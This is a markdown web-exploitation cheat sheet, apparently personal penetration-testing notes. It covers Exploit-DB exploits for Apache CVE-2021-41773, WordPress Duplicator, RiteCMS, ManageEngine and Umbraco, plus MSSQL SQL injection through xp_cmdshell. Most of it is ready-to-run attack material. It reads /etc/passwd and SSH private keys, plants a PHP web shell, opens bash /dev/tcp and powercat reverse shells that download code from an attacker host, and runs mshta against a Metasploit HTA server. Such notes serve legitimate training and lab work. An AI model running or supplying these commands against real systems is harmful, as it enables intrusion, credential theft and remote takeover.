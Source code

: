 # 02 - Web Exploitation

Index
- [Exploit DB](#Exploit-DB)
- [Example: Local File Inclusion](#Example-Local-File-Inclusion)
    - [ID 50383 CVE-2021-41773](#ID-50383-CVE-2021-41773)
    - [ID 50420 CVE-2020-11738](#ID-50420-CVE-2020-11738)
    - [ID 50616 File Upload](#ID-50616-File-Upload)
- [Example: reverse shell](#Example-reverse-shell)
    - [ID 48793 CVE-2020-14008](#ID-48793-CVE-2020-14008)
    - [Local File Inclusion](#Local-File-Inclusion)
    - [ID 49488 RCE and Reverse Shell](#ID-49488-RCE-and-Reverse-Shell)
- [Example: sqli](#Example-sqli)
    - [MSSQL Error, UNION SELECT, reverse shell](#MSSQL-Error-UNION-SELECT-reverse-shell)

## Exploit DB
Exploit search command example: searchsploit $software $version
``` bash
searchsploit apache 2.4.49
------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                 |  Path
------------------------------------------------------------------------------- ---------------------------------
...
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)       | multiple/webapps/50383.sh
...
------------------------------------------------------------------------------- ---------------------------------
```

Copy exploit on disk:
``` bash
searchsploit -m multiple/webapps/50383.sh
```

## Example: Local File Inclusion
### ID 50383 CVE-2021-41773
``` bash
bash 50383.sh ./targets.txt /etc/passwd                 ## read file passwd, user enum
bash 50383.sh ./targets.txt /etc/ssh/*pub               ## search ecdsa key
bash 50383.sh ./targets.txt /home/$user/.ssh/id_ecdsa   ## read ecdsa key, possible ssh access
bash 50383.sh ./targets.txt /home/$user/.ssh/id_rsa     ## read rsa key, possible ssh access
```

### ID 50420 CVE-2020-11738
Wordpress Plugin Duplicator 1.3.26:
``` bash
python3 50420.py http://192.168.1.1 /etc/passwd             ## read file passwd, user enum
python3 50420.py http://192.168.1.1 /home/$user/.ssh/id_rsa ## read rsa key, possible ssh access
```

### ID 50616 File Upload
RiteCMS RCE:
- Need valid credentials (ex: admin/admin) to upload a php shell (shell.pHP)
- Need to change the .php extension in .pHP or similar.
``` php
<?php echo system($_GET['cmd']); ?>                         ## shell.pHP
```
Check the RCE:
``` bash
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=whoami ## for windows
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=id     ## for linux
```
Windows Reverse Shell (powercat.ps1 based):
``` bash
### exploit                                          ### command               ### reverse shell                                    ### KALI                        ### require nc listener: nc -nvlp 443
curl http://192.168.1.1:8000/cms/files/shell.pHP?cmd=powershell -nop -w hidden IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI:8888/powercat.ps1');powercat -c $KALI -p 443 -e powershell
```

## Example: reverse shell
### ID 48793 CVE-2020-14008
ManageEngine reverse shell (auth):
``` bash
python3 48793.py https://192.168.1.1:8443 admin admin $KALI_IP $PORT    ## require nc listener: nc -nvlp 443
```

### Local File Inclusion
Initial access was gained via SSH; an internal web app was running as root.
Unsecure LFI in application script.

Create a reverse shell command file:
``` php
<?php system('bash -c "bash -i >& /dev/tcp/$KALI/443 0>&1"'); ?>         ## require nc listener: nc -nvlp 443
```
Get the vulnerable script from interna (or external if possible):
``` bash
curl http://127.0.0.1:8000/backend/?view=../../../../../../../../home/user/shell.php
```

### ID 49488 RCE and Reverse Shell
Umbraco 7.14 RCE p-o-c:
``` bash
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c whoami
```
Exploit + Reverse Shell Payload (powercat based):
``` bash
### exploit                                                    ### command   ### reverse shell as argument                            ### KALI                    ### require nc listener: nc -nvlp 443
python3 49488.py -u $user -p $password -i 'http://192.168.1.1' -c powershell -a "IEX(New-Object System.Net.WebClient).DownloadString('http://$KALI/powercat.ps1');powercat -c $KALI -p 443 -e powershell"
```

## Example: sqli

### MSSQL Error, UNION SELECT, reverse shell
Check available fields:
``` text
admin' UNION SELECT 1,2,3,4,5--+
admin' UNION SELECT 1,2,3,4--+
admin' UNION SELECT 1,2,3--+
admin' UNION SELECT 1,2--+
```

Enable xp_cmdshell:
``` text
admin' UNION SELECT 1,2; EXEC sp_configure 'show advanced options', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
admin' UNION SELECT 1,2; EXEC sp_configure 'xp_cmdshell', 1--+
admin' UNION SELECT 1,2; RECONFIGURE--+
```

HTA_listener:
``` bash
msf6 > use exploit/windows/misc/hta_server
msf6 exploit(windows/misc/hta_server) > set LHOST $KALI     ## set attacker IP
LHOST => $KALI
msf6 exploit(windows/misc/hta_server) > exploit
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 192.168.45.226:4444 
[*] Using URL: http://$KALI:8888/Kl4Su1ud80QLi.hta          ## HTA url, reverse shell target
[*] Server started.
```

Exploiting:
``` text
admin' UNION SELECT 1,2; EXEC xp_cmdshell 'mshta.exe http://$KALI:8888/Kl4Su1ud80QLi.hta'--+
```
